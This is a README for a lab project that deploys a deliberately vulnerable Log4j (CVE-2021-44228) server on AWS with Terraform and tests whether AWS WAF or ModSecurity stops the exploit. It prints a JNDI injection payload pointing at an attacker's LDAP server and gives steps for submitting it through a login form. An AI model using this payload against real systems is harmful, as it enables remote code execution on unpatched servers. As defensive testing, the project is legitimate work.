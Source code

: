 # Readme

## Project Description
This project files demostrate a proof-of-concept of log4j vulnerability (CVE-2021-44228) on AWS using Terraform Infrastructure-as-a-code means.

There are 2 demo in this project:  
1. single-instance contains a vulnerable server, you can use your personal computer to exploit the server, the server should be protected with AWS WAF.
2. double-instance contans 2 services, the vulnerable server can only be access from the reverse proxy server, the reverse proxy should be protected by ModSecurity.

Conclusion:
The 1st demo demostrate a successful exploit using AWS WAF. The 2nd demo was an unsuccessful attempt when ModSecurity is in placed. Removing ModSecurity the exploit will be successful. It may be because ModSecurity is an active project therefore the vulnerable strings has been identified and filtered.


# Credit
This poc was from :
https://github.com/kozmer/log4j-shell-poc  

This medium blog explain how her attempt walkthrough : 
https://chennylmf.medium.com/apache-log4j-shell-poc-exploits-5953c42fa873  

# My testing  

Personally, I tested using Windows + Powershell, cloud machine is Ubuntu 18 LTS. (Exploitation with kali or any linux)
  
# Pre-requisite

1. Installed AWS_CLI  
2. Installed Terraform CLI   
3. Have Access key ready

## RSA KEY

Create via web (Name it 'tf-aws'): https://console.aws.amazon.com/ec2/v2/home?#KeyPairs


## Get Access key
https://us-east-1.console.aws.amazon.com/iamv2/home#/users > Select user > Select section security_credentials

## Set Access key in shell

Powershell:  
`$env:AWS_ACCESS_KEY_ID="<user access key input>"`  
`$env:AWS_SECRET_ACCESS_KEY="<secret key input>"`  
`$env:AWS_DEFAULT_REGION="<region>"`  

  
Linux:  
`export AWS_ACCESS_KEY_ID="<user access key input>"`  
`export AWS_SECRET_ACCESS_KEY="<secret key input>`  
`export AWS_DEFAULT_REGION="<region>"`

# Usage
## Setup EC2 in AWS platform
 `cd single-instance`  
 `terraform init`    
 `terraform apply`   

Ensure `http:<aws host url>:8080` is accessible

## Prepare Remote / Localhost client (attacker):
Set execute permission  (in same workdir= single-instance)
`chmod +x exploit-script-remote.sh`    

Run script with 2 supplied variable   
`./exploit-script-remote.sh <1: desktop | cloud>`  
where desktop means your workdir is at Desktop and cloud means your workdir at ~/

Note the payload is displayed end of script similar to `${jndi:ldap://<ip-address>:1389/a}`

## Vulnerable Server:  
Visit `http:<aws host url>:8080`

Copy the payload into the 'username' field then submit forms  

![exploit](https://github.com/moshuum/tf-log4j-aws-poc/blob/main/images/Screenshot%202022-06-07%20034332.png?raw=true)


## Remark 
JDK file: have ensure the integrity from baidu source is same hash from Oracle  
SHA256          187EDA2235F812DDB35C352B5F9AA6C5B184D611C2C9D0393AFB8031D8198974

## References
Instance
https://registry.terraform.io/providers/hashicorp/aws/latest/docs/resources/instance


Spot instance:
https://www.tderflinger.com/en/ec2-spot-with-terraform


SSh to verify
https://jhooq.com/terraform-ssh-into-aws-ec2/
https://docs.aws.amazon.com/cli/latest/userguide/cli-services-ec2-keypairs.html

[ssh key on the fly]
https://stackoverflow.com/questions/49743220/how-do-i-create-an-ssh-key-in-terraform

Waf
https://registry.terraform.io/providers/hashicorp/aws/latest/docs/resources/waf_rule
https://medium.com/kudos-engineering/terraforming-amazons-web-application-firewall-e5c22b7d317d
https://www.linode.com/docs/guides/securing-nginx-with-modsecurity/

Templating
https://spacelift.io/blog/terraform-templates

AWS AZ ID
https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/using-regions-availability-zones.html#concepts-availability-zones 

# Things learnt

* (lots of time spent) dont use provision as bash script / use template instead (could better see if could downgrade privilege)
* The RSA key generated from web is more reliable than manually generated from aws-cli if using .pem (the compatibility .pem file to SSH client or AWS server) otherwise use normal rsa key without pem.
* managed to use spot instance instead of normal for some cost saving
* Docker exposing port may overwrite firewall rules
* (lots of time spent) Setting up and Troublehouting networking take lots of time - Route, vpc need 1 sec-group and ec2 host need another sec-group - and both sec-group need to point to vpc


* 

# # Time keeping
* Start 06 Jun 11AM UTC+0800 - 07 Jun 4AM (Completed poc+tf+aws -waf) - 17 hours
* Start 07 Jun 1PM UTC+0800





